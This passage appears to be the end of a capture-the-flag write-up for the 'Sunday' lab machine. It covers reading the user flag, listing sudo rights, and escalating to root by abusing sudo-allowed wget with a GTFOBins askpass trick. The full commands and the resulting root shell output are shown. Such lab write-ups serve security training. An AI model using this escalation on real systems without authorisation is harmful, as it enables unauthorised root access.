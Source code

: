 ```bash
sammy@sunday:~$ cat /home/sammy/user.txt 
< HERE IS THE USER FLAG >

```
We did not check if we have sudo permissions with the user(s) yet. Let's check the `sudo -l` command to see what we can execute as sudoer.
```bash
sammy@sunday:~$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
We are lucky since we can run sudo on wget. There is a post on [GTFObins wget](https://gtfobins.github.io/gtfobins/wget/) how we can escalate our privileges so we gain root privileges on the system.

## Privilege escalation
To gain more privileges with wget, we just have to follow the steps described on GTFObins.
```bash
sammy@sunday:~$ TF=$(mktemp)
sammy@sunday:~$ chmod +x $TF
sammy@sunday:~$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sammy@sunday:~$ sudo /usr/bin/wget --use-askpass=$TF 0
root@sunday:/home/sunny# 

```
It looks like we are root on the system. Now we should only capture the root flag as proof.
```bash
root@sunday:/home/sunny# whoami                                                    root
root@sunday:/home/sunny# id                                                        uid=0(root) gid=0(root)
root@sunday:/home/sunny# hostname                                                  sunday
root@sunday:/home/sunny# cat /root/root.txt                                        < HERE IS THE ROOT FLAG >

```

This was an easy (old) machine. I never used finger before. All the information about using finger could be found on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger).